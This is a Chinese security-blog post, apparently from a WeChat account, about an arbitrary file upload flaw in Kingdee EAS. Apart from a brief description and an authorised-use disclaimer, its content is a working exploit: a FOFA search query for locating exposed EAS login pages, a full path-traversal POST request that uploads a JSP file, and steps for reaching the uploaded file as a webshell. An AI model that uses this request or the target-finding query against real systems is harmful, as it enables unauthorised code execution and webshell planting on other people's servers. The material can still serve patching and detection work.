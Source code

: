 #  金蝶EAS /easportal/tools/appUtil.jsp 任意文件上传/下载漏洞   
 TKing的安全圈   2024-03-12 23:16  
  
##   
```
公众号技术文章仅供诸位网络安全工程师对自己所管辖的网站、服务器、网络进行检测或维护时参考用，公众号的检测工具仅供各大安全公司的安全测试员安全测试使用。未经允许请勿利用文章里的技术资料对任何外部计算机系统进行入侵攻击，公众号的各类工具均不得用于任何非授权形式的安全测试。公众号仅提供技术交流，不对任何成员利用技术文章或者检测工具造成任何理论上的或实际上的损失承担责任。加微信进群获取更多资源：
```  
###   
  
金蝶EAS Cloud为集团型企业提供功能全面、性能稳定、扩展性强的数字化平台，帮助企业链接外部产业链上下游，实现信息共享、风险共担，优化生态圈资源配置，构筑产业生态的护城河，同时打通企业内部价值链的数据链条，实现数据不落地，管理无断点，支撑“横向到边”财务业务的一体化协同和“纵向到底”集团战略的一体化管控，帮助企业强化核心竞争力  
  
漏洞描述  
  
金蝶EAS 存在任意文件上传/下载漏洞，攻击者可以上传包含恶意代码的文件，最终执行任意代码  
  
漏洞危害  
  
1、执行任意代码：攻击者可以通过上传包含恶意代码的文件，执行任意代码并控制受害者的计算机或服务器，导致数据泄露、破坏或其他恶意行为。2、篡改或删除数据：攻击者可以上传包含恶意代码的文件，并篡改或删除服务器上的重要文件或数据。3、钓鱼攻击：攻击者可上传 html、shtm 等文件，并写入非法博彩、赌博等恶意 SEO 页面或者写入恶意 js 文件进行钓鱼来非法获取用户信息等。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9asqTJF7scFNDVRqmXG03wb9b5ANRxVFm2d9l0fSehy9ngM14xlgI5IQ/640?wx_fmt=jpeg "")  
#  搜索语法  
  
**fofa：title=="EAS系统登录"**  
  
漏洞poc  
```
POST /easportal/buffalo/%2e%2e/cm/myUploadFile.do HTTP/1.1Host: Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Type: multipart/form-data; boundary=----testContent-Length: 147
------testContent-Disposition: form-data; name="myFile"; filename="test.jsp"Content-Type: text/html
<%out.println("test");%>------test--木马地址：url+/easportal/buffalo/../test.jsp
```  
1. 出现如下数据代表漏洞存在  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aice4ZT4JCibcVeByc1hOGCnoKuDf5iaicMRceGqZr1R1rArQpz7fhXScCQ/640?wx_fmt=jpeg "【新】金蝶EAS myUploadFile接口任意文件上传")  
  
2.访问webshell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aKKlYrcub6CveBNYca62LDnDPKZ5AJwmlAfChiaibFY3435m2kCibQSicfQ/640?wx_fmt=jpeg "【新】金蝶EAS myUploadFile接口任意文件上传")  
  
#   
  
